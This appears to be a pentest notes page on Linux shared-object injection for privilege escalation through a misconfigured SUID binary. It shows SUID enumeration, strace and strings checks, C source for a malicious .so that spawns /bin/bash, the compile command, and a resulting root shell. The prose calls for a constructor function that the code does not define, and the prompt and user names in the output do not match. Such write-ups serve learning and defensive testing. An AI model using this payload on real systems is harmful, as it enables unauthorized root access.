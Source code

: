 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SO Injection

**Shared objects** (`.so` files) in Linux are dynamically linked libraries (similar to Windows DLLs) used by executables to extend or modularize functionality at runtime. These libraries are typically loaded either at launch or during execution via functions like `dlopen()`. When a binary depends on a shared object and fails to find it at a hardcoded or expected path, the dynamic linker searches through various locations to resolve it. If the binary is misconfigured and attempts to load a shared object from a location controlled by a non-privileged user, this behavior can be exploited to achieve arbitrary code execution.

**Shared Object Injection** refers to the technique of supplying a malicious `.so` file to a binary that attempts to load it. If the binary has the SUID bit set and is owned by `root`, any code within the injected `.so` will execute with elevated privileges. This becomes particularly critical if the binary uses `dlopen()` without sanitizing library paths or enforces no proper loading restrictions. The attack typically succeeds when the library lookup path is user-writable and the binary references a missing or replaceable shared object.

{% code overflow="wrap" %}
```bash
# Enumerate SUIDs
$ find / -type f -perm -u=s 2>/dev/null
/var/www/html/wordpress/blog/backup-sync

# Check file type
$ file /var/www/html/wordpress/blog/backup-sync
/var/www/html/wordpress/blog/backup-sync: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=412e632d65575e1c9de841c1f5400fe63c1c6878, for GNU/Linux 3.2.0, not stripped

# Check permissions
$ ls -la /var/www/html/wordpress/blog/backup-sync
-rwsr-xr-x 1 root root 16728 Mar 27 11:15 /var/www/html/wordpress/blog/backup-sync
```
{% endcode %}

To identify this vulnerability in a SUID binary, the first step involves dynamic analysis using `strace`. Executing the binary under `strace` and filtering for `open` or `access` system calls reveals attempts to load files, including libraries. If the trace shows that the binary attempts to load a `.so` file but fails due to its absence, this is a strong indication of a potential injection point.

{% code overflow="wrap" %}
```bash
$ strace /var/www/html/wordpress/blog/backup-sync 2>&1 | grep -iE "open|access|no such file"
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/home/x7331/.lib/libsecurity.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```
{% endcode %}

Further inspection of the binary using tools like `strings` can reveal whether it employs `dlopen()` or other dynamic loading functions. If `dlopen()` appears in the binary's output, it confirms that the binary is likely performing dynamic library loading at runtime.

```bash
$ strings backup-sync | grep dlopen
dlopen
dlopen@GLIBC_2.34
```

To exploit this condition, a custom `.so` must be created with a constructor function which executes as soon as the library is loaded.

{% code title="libsecurity.c" %}
```c
// libsecurity.c
#include <stdio.h>
#include <stdlib.h>

void init_plugin() {
    system("/bin/bash");
}
```
{% endcode %}

```bash
# Create the directory
$ mkdir /home/x7331/.lib

# Compile the code into a shared object
$ gcc -shared -o /home/x7331/.lib/libsecurity.so -fPIC ./libsecurity.c

# Execute the target binary
$ /var/www/html/wordpress/blog/backup-sync
[+] Checking the logs...
root@kali:~# id
uid=0(root) gid=1002(bob) groups=1002(bob)
```
